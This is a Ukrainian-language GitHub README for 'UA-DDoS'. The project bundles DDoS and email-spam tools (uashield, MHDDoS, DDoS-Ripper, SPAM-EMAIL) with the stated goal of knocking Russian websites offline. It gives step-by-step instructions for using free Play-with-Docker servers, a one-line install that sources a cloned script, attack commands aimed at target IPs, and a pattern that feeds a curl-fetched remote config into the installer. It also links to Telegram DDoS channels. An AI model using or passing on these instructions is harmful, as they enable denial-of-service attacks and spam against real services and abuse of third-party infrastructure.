 ![](https://raw.githubusercontent.com/BogdanDevUA/Ukraine/main/ukraine.svg)

> [**Read in English**](README-en.md)

# UA-DDoS ![](https://raw.githubusercontent.com/BogdanDevUA/Ukraine/main/mini_ukraine.svg)

## Запускайте в Git bash або в [PWD](https://labs.play-with-docker.com/) (Play with docker)

Спочатку зареєструйтесь в **PWD**

[![Try in PWD](https://raw.githubusercontent.com/play-with-docker/stacks/master/assets/images/button.png)](https://labs.play-with-docker.com/)

Якщо що - пишіть <https://t.me/dirim>

Я допоможу

## Деплой

### Переходимо на сайт і натискаємо _login_ -> _docker_

Вас перекине на нове вікно

![](images/1.png)

### В полі ___Docker ID___ пишемо рандомні букви-цифри (запишіть їх десь)

![](images/2.png)

### Після реєстрації - ви маєте сервер!

![](images/3.png)

#### Тепер ви можете валити російські сайти по повній програмі!

## Установка

```sh
git clone https://github.com/BogdanDevUA/UA-DDoS.git \
  && . UA-DDoS/install.sh
```

Цю дію треба робити тільки один раз

## Інструкція

```text
В аргуметах (наприклад ddos-ripper -s <ip>), треба писати так:

ddos-ripper -s 123.45.67.89
Не ddos-ripper -s <123.45.67.89>

Аргументи в квадратних дужках - рекомендовані параметри

Наприклад:
uashield 500 true

std - стандартизовані параметри, можна не вказувати

Наприклад:
ddos-ripper -s 123.45.67.89

Порт 80 буде автоматично вказано
Щоб вказати інший порт, допишіть -p <port>

Якщо хочеш завантажити інші програми:
load <автор> <репозиторій>

Наприклад:
load opengs uashield

Запуск uashield: uashield <потоки[500]> <проксі[true]>
Запуск MHDDoS: mhddos
Запуск DDoS-Ripper: ddos-ripper -s <ip> -p <порт[std:80]>
Запуск SPAM-EMAIL: spam-email

Ви можете заливати свої конфіги
Приклад:

echo "(<aythor> <repo> <build[std:none])" >> config.txt
echo "(<aythor> <repo> <build[std:none])" >> config.txt
...
І так далі
В кінці напишіть echo "." >> config.txt

Ви можете створити свій репозиторій на GitHub з конфігом
Щоб завантажити власний пакет з GitHub:

git clone https://github.com/BogdanDevUA/UA-DDoS.git \
  && . UA-DDoS/install.sh $(curl https://raw.githubusercontent/<author>/<repo>/<branch>/config.txt)

Тоді будуть установлені ваші пакети
``` 

### Думаю все зрозуміло, тепер ти можеш дудосити російські сайти) !


## Ресурси:

* > [**uashield**](https://github.com/opengs/uashield)

* > [**MHDDoS**](https://github.com/MHProDev/MHDDoS)

* > [**DDoS-Ripper**](https://github.com/palahsu/DDoS-Ripper)

* > [**SPAM-EMAIL**](https://github.com/mkdirlove/SPAM-EMAIL)

## Чати та канали телеграм по DDoS:
* <https://t.me/UAcyberfront/9> ![](https://raw.githubusercontent.com/BogdanDevUA/Ukraine/main/mini_ukraine.svg)

* [**Cyber Hackers UA**](https://t.me/CyberHackersUA)


## Слава Україні! ![](https://raw.githubusercontent.com/BogdanDevUA/Ukraine/main/mini_ukraine.svg)
